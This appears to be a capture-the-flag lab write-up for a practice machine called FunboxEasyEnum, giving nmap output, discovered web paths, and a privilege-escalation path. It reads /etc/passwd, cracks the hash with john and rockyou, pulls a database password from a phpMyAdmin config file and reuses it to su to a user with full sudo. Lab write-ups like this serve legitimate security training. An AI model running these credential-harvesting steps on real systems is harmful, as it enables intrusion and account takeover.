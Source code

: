 # FunboxEasyEnum

***

IP=192.168.240.132

## NMAP

| PORT   | STATE | SERVICE |
| ------ | ----- | ------- |
| 22/tcp | open  | ssh     |
| 80/tcp | open  | http    |

```perl
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```bash
/index.html           (Status: 200) 
/javascript           (Status: 301) 
/mini.php             (Status: 200)                                        
/robots.txt           (Status: 200)                                         
/phpmyadmin           (Status: 301) 
```

### File Upload



<figure><img src="../../.gitbook/assets/Pasted image 20231023220428.png" alt=""><figcaption></figcaption></figure>

## PrivEsc

```bash
cat /etc/passwd
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```

```bash
echo '$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> oracle:hiphop

```bash
cat /etc/phpmyadmin/config-db.php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
```

```bash
su karla
tgbzhnujm!
```

```bash
sudo -l

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```
